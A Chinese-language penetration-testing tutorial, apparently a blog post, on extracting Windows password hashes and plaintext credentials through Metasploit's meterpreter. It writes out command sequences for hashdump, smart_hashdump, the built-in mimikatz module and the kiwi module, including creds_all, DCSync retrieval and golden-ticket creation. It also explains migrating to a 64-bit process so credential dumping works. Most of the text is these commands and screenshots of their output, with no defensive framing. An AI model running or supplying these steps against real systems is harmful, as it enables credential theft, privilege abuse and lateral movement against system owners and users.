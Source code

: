 **msf内置的mimikatzi获取hash（需要管理员权限）**

在msf中也内置有mimikatz，以下命令都可以在msf中获取hash

    hashdump
    run hashdump
    run post/windows/gather/smart_hashdump
    除了meterpreter自带的，还可以通过加载mimikatz获得：
    load mimikatz（必须，否则无以下命令）
    msv    获取的是hash值
    tspkg   tspkg凭证相关的模块
    wdigest   读取内存中存放的账号密码明文信息
    kerberos  kerberos相关的模块
    ssp   获取的是明文信息
    
        

mimikatz的原生命令在这里有些改动-
mimikatz\_command 模块可以让我们使用mimikatz的全部功能

    meterpreter > mimikatz_command -f a::  输入一个错误的模块，可以列出所有模块
    meterpreter > mimikatz_command -f samdump::  可以列出samdump的子命令
    meterpreter > mimikatz_command -f samdump::hashes
    meterpreter > mimikatz_command -f handle::list  列出应用进程
    meterpreter > mimikatz_command -f service::list  列出服务
    
        

例如

    mimikatz_command -f samdump::hashes   获取hash
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930085617726.png%23pic_center)-
建议每种都试一下，可能因为windows版本的高低，有些情况一种命令获取不到，比如我的win2003就只能用hashdump命令才能看到密码hash-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930085639604.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020093008565147.png%23pic_center)-
**#msf的kw模块(需要系统权限)**

kiwi就是msf内置的mimikatz模块的升级版-
但是kiwi是默认加载32位系统的，所以如果目标主机是64位系统的话，直接默认加载该模块会导致很多功能无法使用。所以如果目标系统是64位的，则必须先查看系统进程列表，然后用migrate命令将meterpreter进程迁移到一个64位程序的进程中，才能加载mimikatz并且查看系统明文。如果目标系统是32位的，则没有这个限制。-
使用前先在meterpreter下加载kiwi模块

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930085730493.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
使用命令`creds_kerberos`列举所有kerberos凭据-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930085751233.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
可以看到我之前用msf内置的mimikatz没有加载出来的密码，现在明文加载出来了。-
再来将用户hash密码加载出来`kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令`-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930085812404.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
可以看到成功列出用户密码hash-
kiwi模块命令集合

    creds_all： 列举所有凭据
    creds_kerberos：列举所有kerberos凭据
    creds_msv：列举所有msv凭据
    creds_ssp：列举所有ssp凭据
    creds_tspkg：列举所有tspkg凭据
    creds_wdigest：列举所有wdigest凭据
    dcsync： 通过DCSync检索用户帐户信息
    dcsync_ntlm： 通过DCSync检索用户帐户NTLM散列、SID和RID
    golden_ticket_create：创建黄金票据
    kerberos_ticket_list：列举kerberos票据
    kerberos_ticket_purge：清除kerberos票据
    kerberos_ticket_use：使用kerberos票据
    kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令